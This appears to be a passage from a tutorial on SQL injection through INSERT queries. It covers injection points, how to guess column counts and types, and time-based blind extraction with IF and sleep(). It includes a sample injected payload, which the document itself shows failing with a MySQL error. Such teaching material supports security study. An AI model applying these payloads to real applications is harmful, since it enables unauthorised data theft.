 ```sql
Query OK, 1 row affected (0.01 sec)
```

However, the exploitation is yet possible and we can extract the entire database information.

> It is possible to INSERT multiple rows/ entries in a single `INSERT` query.

## Injection Point

Usually, `INSERT` query is used in the following pages

1. Registration page
2. Comment / feedback page
3. Add new entry page etc.

There are some situations, where a user controls only `one` column through UI however underlying `INSERT` query uses more columns.

Before exploiting the INSERT query, we need to guess the followings

1. Number of columns used by the underlying INSERT query.
2. data types used by those columns
3. Table name.

> In a INSERT query, specifying column names are optional.
>
> query = `INSERT INTO tbl_post02(comment, pin, age, user) VALUES('hello', 100, 22, 'anonymous');`
>
> query without column name = `INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous');`

## Scenario: The user tries to INSERT an entry into a table but the UI does not show any column of that table

> We can't extract data from a table where we tries to insert an entry.
>
> However we can extract data from other table via `blind time based injection`.

* Because via `IF` statement we can control the return value.
* The primary logic:
  * If MySQL executes sleep() command, insert `x` into the table
  * Else insert `y`.
* This technique works for extracting the value from a column that has either be `VARCHAR` or `INT` data type.

### Sub scenario 1: The user can control the first column of the table and column datatype = VARCHAR

```
# target of extraction: `age` => INT column of the tbl_post02()
# table used in the query: tbl_post02()
# structure: `comment` => VARCHAR, pin => INT, `age` => INT, user => VARCHAR

query = INSERT INTO tbl_post02() VALUES('hello', 100, 22, 'anonymous')
payload = blah', (IF((SELECT age from tbl_post02 WHERE user = 'admin') = 25, sleep(10), 2)), 22, 'anonymous')#

poisoned query =  INSERT INTO tbl_post02() VALUES('blah', (IF((SELECT age from tbl_post02 WHERE user = 'admin') = 25, sleep(10), 2)), 22, 'anonymous')#', 100, 22, 'anonymous')

# result
Error: 1093 (HY000): Table 'tbl_post02' is specified twice, both as a target for 'INSERT' and as a separate source for data
```
